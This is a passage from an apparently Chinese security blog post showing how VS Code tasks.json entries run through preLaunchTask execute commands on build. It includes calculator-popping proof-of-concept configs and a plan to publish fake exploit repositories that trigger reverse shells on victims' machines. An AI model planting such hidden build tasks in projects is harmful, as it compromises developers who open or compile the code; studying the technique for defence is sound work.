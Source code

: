     
    
    {                "version": "2.0.0",                "tasks": [                  {                    "type": "shell",                    "label": "cmd-demo",                    "command": "open",                    "args": [                        "-a",                        "/System/Applications/Calculator.app"                    ],                    "group": {                      "kind": "build",                      "isDefault": true                    }                  }                ]            }

         

然后回到launch.json中，添加"preLaunchTask": "cmd-
demo"，其中preLaunchTask的值必须与tasks.json中的label值相同，意思就是在运行编译之前先运行任务

点击运行调试，弹出计算器，而且也生成了可执行文件

![]()

  

![]()

  

 **0x0** **4**  
 **供应链投毒**

## 简单举个例子，比如在github或开源社区通过公布漏洞EXP等的方式，上传该代码，提示用户需要自行编译，引导其在Visual Studio
Code中自动编译。

那么不同的用户可能使用的系统不同（windows/mac/linux），那么如果只是用于攻击，就无需管launch.json中的program的值，可以让用户自己指定，我们只需要处理tasks.json中的内容，这里比如指定个不存在的路径

  

![]()

依旧弹出了计算器，意味着无论launch.json中的program是否可以执行，也会先运行tasks.json中的任务

但是由于不同的系统，远程控制的方式不同，比如windows的通过加载shellcode进行远程控制，而linux通过bash来进行反弹shell，那么提供几种思路

#####  **1、任务自带参数判断  **

tasks.json中自带参数可以判断当前操作系统，如：windows、linux和osx，其中osx就是macOS

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    {                "version": "2.0.0",                "tasks": [                  {                    "label": "cmd-demo",                    "type": "process",                    "osx": {                      "command": "open",                      "args": [                        "-a",                        "/System/Applications/Calculator.app"                      ]                    },                    "linux": {                      "command": ""                    },                    "windows": {                      "command": ""                    },                  }                ]            }

       

运行方式还是在launch.json中指定preLaunchTask，优先运行该任务
